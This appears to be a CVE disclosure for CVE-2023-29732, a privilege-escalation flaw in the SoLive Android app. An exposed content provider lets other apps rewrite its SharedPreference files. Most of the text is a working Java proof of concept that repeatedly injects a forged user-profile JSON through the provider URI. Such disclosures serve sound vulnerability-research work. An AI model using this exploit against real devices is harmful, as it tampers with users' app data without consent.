 ## Escalation of Privileges exists in SoLive（CVE-2023-29732）

Vendor：SoLive App(https://so-live.web.app/)

Affected product：SoLive(com.matchtech.solive)

Version：1.6.14,1.6.20

Download link：https://play.google.com/store/apps/details?id=com.matchtech.solive&hl=en_US&gl=US

Description of the vulnerability for use in the CVE：SoLive 1.6.14 thru 1.6.20 for Android exists exposed component, the component provides the method to modify the SharedPreference file. The attacker can use the method to modify the data in any SharedPreference file, these data will be loaded into the memory when the application is opened. Depending on how the data is used, this can result in various attack consequences, such as ad display exceptions.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    String randomString =getRandomString(512);
    Uri uri = Uri.parse("content://com.matchtech.solive.TTMultiProvider/t_sp/contain/" + "zztest" + "?sp_file_name=adjust_preferences");
    while (true) {
        ContentValues contentValues = new ContentValues();
        contentValues.put("apiUserProfile", "{\"is_verified\":false,\"is_favorite\":false,\"uid\":\"FlG4hFCFrxPQMQ2UfejzeJuzoy92\",\"b\":2,\"c\":3,\"d\":0,\"lang\":\"jp\",\"bio\":\"hack\",\"workTitle\":\"hack\",\"workCompany\":\"hack\",\"education\":\"hack\",\"redactedName\":\"T*******\",\"name\":\"hack\",\"ppImageURL\":\"https://d2veheavfolhls.cloudfront.net/pp%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd8350738-45da-4221-a648-5082259139c5?alt\\u003dmedia\",\"ppImageID\":\"d8350738-45da-4221-a648-5082259139c5\",\"country\":{\"code\":\"HK\",\"name\":\"Hong Kong SAR China\",\"flag\":\"https://d2veheavfolhls.cloudfront.net/misc%2Fflags%2FHK@3x.png?alt\\u003dmedia\"},\"birthday\":\"1999-11-29T06:22:00.000Z\",\"age\":99,\"popularity\":1000,\"like_count\":-1,\"shared_id\":\"123456789\",\"favorite_count\":0,\"self_favorite_count\":3,\"ppImages\":[{\"ID\":\"d8350738-45da-4221-a648-5082259139c5\",\"URL\":\"https://d2veheavfolhls.cloudfront.net/pp%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd8350738-45da-4221-a648-5082259139c5?alt\\u003dmedia\",\"review_status\":0}],\"profileVideos\":[{\"ID\":\"d4f68235-630c-46b2-b45a-b9716b4ee6da\",\"URL\":\"https://d2veheavfolhls.cloudfront.net/pv%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd4f68235-630c-46b2-b45a-b9716b4ee6da?alt\\u003dmedia\",\"thumbnailURL\":\"https://d2veheavfolhls.cloudfront.net/pvt%2FFlG4hFCFrxPQMQ2UfejzeJuzoy92%2Fd4f68235-630c-46b2-b45a-b9716b4ee6da?alt\\u003dmedia\",\"review_status\":0}]}");
        contentResolver.update(uri,contentValues,null,null);
    }
}
```



